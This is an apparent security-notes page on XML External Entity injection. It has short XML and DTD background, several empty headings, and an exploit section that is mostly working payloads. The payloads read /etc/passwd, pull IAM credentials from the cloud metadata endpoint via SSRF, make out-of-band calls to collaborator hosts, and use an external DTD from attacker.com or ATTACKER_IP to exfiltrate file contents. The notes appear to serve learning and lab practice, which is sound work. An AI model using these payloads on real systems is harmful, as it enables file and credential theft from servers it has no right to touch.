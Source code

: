 ```yaml
---
title: XML External Entity
description: XML external entity injection
sidebar:
  order: 2
---
```


## What is XML

- Extensible Markup Language
- Used by application to store and transport data, web services, APIs
- It's human-readable and machine parseable

## XML Syntax and Structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user id="1">
   <name>John</name>
   <age>30</age>
   <address>
      <street>123 Main St</street>
      <city>Anytown</city>
   </address>
</user>
```

- **Element** is a tag
- **Attributes** additional information for the tag

## XSLT

- Extensible Stylesheet Language Transformations
- Use for data transformation and formatting

### XSLT for XXE attack

- **Data Extraction** : extract sensitive data
- **Entity Expansion**: allows can expand entity which means attacker can inject malicious entities.
- **Data Manipulation**: modifying data in a XML document
- **Blind XXE**: attack can inject malicious entities without seeing the server response.

## DTD

- Document Type Definitions
- Define structure and constraints of an XML document
- Purpose of DTD
  - **Validation**: ensure XML follow the structure of specific criteria
  - **Entity Declaration**: define entities that can be used in the XML document

## XML Entities

- Entities are placeholder for data or code in XML document

### Types of Entities

#### Internal Entities

#### External Entities

#### Parameter Entities

#### General Entities

## XML Parsing Mechanisms

### Common XML Parsers

#### DOM Parser

#### SAX Parser

#### StAX Parser

#### XPath Parser

## Exploit
### Read file
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&xxe;</productId><storeId>
</storeId></stockCheck>
```

### SSRF
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>
</storeId></stockCheck>
```

### Out-of-band 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://gau2yglkb5cd6y4jqxekmb9v1m7ev4jt.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### XML parameters
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://gau2yglkb5cd6y4jqxekmb9v1m7ev4jt.oastify.com">]>
<stockCheck><productId>%xxe; </productId><storeId>1</storeId></stockCheck>
```

### Exfiltrate with out-of-band
**exploit.dtd**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname"> 
<!ENTITY % oobxxe "<!ENTITY &#x25; exfil SYSTEM 'http://iyk4mi9mz70fu0slez2madxxpovgjf74.oastify.com/?x=%file;'>"> 
%oobxxe; 
%exfil;
```

**Parameter Entity**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://attacker.com/exploit.dtd"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

**General Entity**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
